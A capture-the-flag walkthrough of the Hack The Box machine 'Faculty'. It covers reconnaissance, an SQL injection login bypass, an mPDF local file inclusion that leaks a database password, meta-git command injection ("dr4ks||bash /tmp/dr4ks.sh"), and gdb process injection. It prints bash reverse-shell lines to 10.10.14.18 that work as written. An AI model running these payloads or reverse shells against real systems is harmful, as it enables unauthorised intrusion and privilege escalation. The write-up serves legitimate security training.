

# [Faculty](https://app.hackthebox.com/machines/faculty)

```bash
nmap -p- --min-rate 10000 10.10.11.169 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.169 -Pn 
```


From nmap scan result, I see that this ip address is resolved into `faculty.htb` domain name, let's add this `/etc/hosts` file.


If we open web application, we can see such page.


Let's do `Directory Enumeration`.

```bash
gobuster dir -u http://faculty.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php,txt
```


Let's access into `/admin` endpoint and I can see basic authentication here.


Let's add `SQL Injection` payloads to bypass authentication.


Now, I am on home page and bypassed successfully authentication via `SQL Injection`.


There's option to download `.pdf` file, it is generated by using `mpdf`.


Let's download this `.pdf` file and look at metadata of this via `exiftool` command.


This is `mPDF` and version of this is `6.0`.

I searched and find `Local File Inclusion` LFI attack for `mpdf` from [here](https://github.com/mpdf/mpdf/issues/356).

Let's abuse this.

For this, while we request to `/admin/download.php` file, we need to write below input into here to read `sensitive` files such as `/etc/passwd`.


Then, we need to write this data into `pdf` parameter while sending request to `/admin/download.php`.


After submission of file, I can see `/etc/passwd` file as below.


From enumeration of `/etc/passwd` file, I see that `syslog`,`gbyolo` and `developer` users are normal users.


To get `db_connect.php` file, I prepare below payload to submit.

First, I create proper data for `pdf` parameter.


Second, we submit this crafted payload.


By reading `db_connect.php` file, I got valid credentials from here.


Password: Co.met06aci.dly53ro.per


Let's check this password for valid users which we mentioned before.For this, I will use `crackmapexec` command to find correct user for this password.
```bash
crackmapexec ssh faculty.htb -u users.txt -p "Co.met06aci.dly53ro.per"
```


Let's login into machine via this credentials.




While looking at privileges of this user via `sudo -l` command, I see `meta-git`.


I found `Privilege Escalation` technique on [Hackerone's post](https://hackerone.com/reports/728040).

Let's abuse this.

```bash
sudo -u developer meta-git clone 'dr4ks||touch dr4ks'
```


As you see file owner is `developer`.

Now, it's time for adding reverse shell into here.

First, I craete below malicious `dr4ks.sh` file.
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

Secondly, we need to run this `.sh` file via `developer` user for this, I do below payload.
```bash
sudo -u developer meta-git clone 'dr4ks||bash /tmp/dr4ks.sh'
```


Hola, I got reverse shell from port `1337`.


user.txt


While I run `id` command, I see that `developer` user belongs to `debug` group.


I searced files which I have access via this `debug` group.
```bash
find / -group debug 2>/dev/null
```


I see that I have privilege to run `/usr/bin/gdb` binary.


Let's search `root` processes via `ps aux | grep root` command.


I see `Python` process called `/usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers`, it means I can execute whatever I want via this process.


We just grab this process_id (730) and enters via `gdb` tool.

```bash
gdb -p 730
```

Then, we can call this `Python` function to get reverse shell.
```bash
call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.18/1338 0>&1'")
```


Hola, I got reverse shell from port `1338`.


root.txt

